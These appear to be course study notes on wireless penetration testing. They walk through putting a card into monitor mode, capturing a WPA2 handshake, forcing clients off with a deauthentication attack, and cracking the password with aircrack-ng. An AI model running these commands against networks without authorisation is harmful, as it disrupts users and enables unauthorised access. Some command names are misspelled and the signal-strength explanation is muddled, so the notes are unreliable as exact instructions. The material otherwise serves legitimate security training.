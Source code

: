 1. Wireless Penetration Test

**Assessment of wireless network**
- WPA2 PSK (Pre Shared Key)(mostly homes and SME's)
- WPA2 Entreprise (will use radius or credentials)

**Activities performed**
- Evaluating strength of PSK (capturing handshake, trying to crack password)
- Reviewing nearby networks (wardriving, GPS device and walking around to detect networks and devices)
- Assessing guest networks (want to see the separation and what access we can get)
- Checking network access

***
Will do the WPA PSK Exploit walkthrough with a network card

The Hacking Process

- **Place** wireless card into monitor mode
- **Discover** information about network
	- Channel
	- BSSID
- **Select** network and capture data
- **Perform** deauth attack
- **Capture** WPA handshake
- **Attempt** to crack the handshake

Tools we need: Wireless Card, Router, Laptop

From Kali machine:
```
# iwconfig
# airmong-ng check kill
# airmong-ng start wlan0
# iwconfig
# airodump wlan0mon
```
- 'check kill' will see what processes are running and interfering with what we want to do and kill them 
- 'airodump wlan0mon' will see what networks are around and give us BSSID's (MAC address of acces point)
- PWR the lower (or more positive) the number, the closer the device is to us 
- We see the channel we are on, the encryption, and other networks (hidden and others)

After we know the BSSID:
```
# airodump-ng -c 6 --bssid 50:c7:89:BA:00:73 -w capture wlan0mon
```

will store our results in 'capture.cap'

We can perform a deauth attack to speed up the process:
```
# aireplay-ng -0 1 -a 50:c7:89:BA:00:73 -c <stationAddress> wlan0mon
```
- `-0` to specify deauth attack
- `1` to run this once

Can use capture.cap to crack using hashcat or aircrack:
```
# aircrack-ng -w wordlist.txt -b 50:c7:89:BA:00:73 capture.cap
```